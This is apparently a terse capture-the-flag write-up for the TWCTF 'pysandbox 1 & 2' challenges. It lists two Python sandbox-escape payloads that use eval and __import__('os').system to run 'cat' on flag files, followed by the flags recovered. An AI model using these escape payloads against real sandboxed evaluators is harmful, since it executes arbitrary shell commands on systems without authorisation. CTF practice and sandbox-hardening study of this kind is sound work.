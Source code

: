 # pysandbox 1 & 2

`[1][((lambda: eval("__import__('os').system('cat flag')"))() and 0) or 0]`

`TWCTF{go_to_next_challenge_running_on_port_30002}`

`[1][((lambda: eval("__import__('os').system('cat flag2')"))() and 0) or 0]`

`TWCTF{baby_sandb0x_escape_with_pythons}`
